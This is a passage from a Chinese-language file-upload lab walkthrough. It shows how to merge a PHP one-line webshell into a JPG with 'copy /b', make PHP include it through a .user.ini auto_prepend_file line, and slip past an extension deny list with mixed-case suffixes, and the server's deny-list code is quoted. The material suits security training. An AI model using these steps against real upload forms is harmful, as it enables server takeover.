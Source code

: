 ```shell
#cmd中：
#/b指定以二进制格式复制、合并文件; 用于图像类/声音类文件
#/a指定以ASCII格式复制、合并文件。用于txt等文档类文件
copy  1.jpg/b + 1.php/a  2.jpg
```

或者直接十六进制打开图片，将一句话木马插入最底层

![](https://i.loli.net/2021/02/13/uOTLmlvSxt8aeRr.png)

2、准备`.user.ini`

 使用方法很简单，直接写在.user.ini中：

```ini
auto_prepend_file=ingo.jpg
```

`ingo.jpg`就是要包含的文件啦



3、找到目标服务器php可以正常访问的文件（应当与`.user.ini`在同一路径）

这里提示了readme.php

![](https://i.loli.net/2021/02/13/IlYt2H8sr5Dg6Cv.png)

那么直接访问readme.php就可以了

![](https://i.loli.net/2021/02/13/msP6WIU3ilG4yez.png)



## pass6（黑名单-大小写绕过）

### 分析

如下，去掉了`strtolower($file_ext)`函数（转换为小写）

```php
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
```

### bypass

因此直接大小写绕过对后缀名做手脚：
